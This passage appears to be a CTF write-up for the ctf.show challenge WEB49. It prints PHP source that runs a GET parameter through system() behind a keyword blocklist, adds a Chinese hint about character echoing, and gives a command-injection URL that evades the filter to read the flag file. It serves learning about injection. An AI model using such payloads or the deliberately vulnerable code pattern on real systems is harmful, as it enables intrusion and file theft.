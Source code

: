 ## <mark style="color:blue;background-color:orange;">（21）WEB49</mark>

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:22:43
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__); 
```

<figure><img src="../.gitbook/assets/image (19) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="danger" %}
<mark style="color:red;">**在做这一题的时候出现了一个很重要的事情，就是<>/\</>和？一起使用时，不回显，所以我们将？换成/，让<>和/一起使用才能回显**</mark>
{% endhint %}

```php
http://f9d6e425-e707-4e7e-a144-5bb5ed0f2630.challenge.ctf.show/?c=nl<>fla\g.php||
```
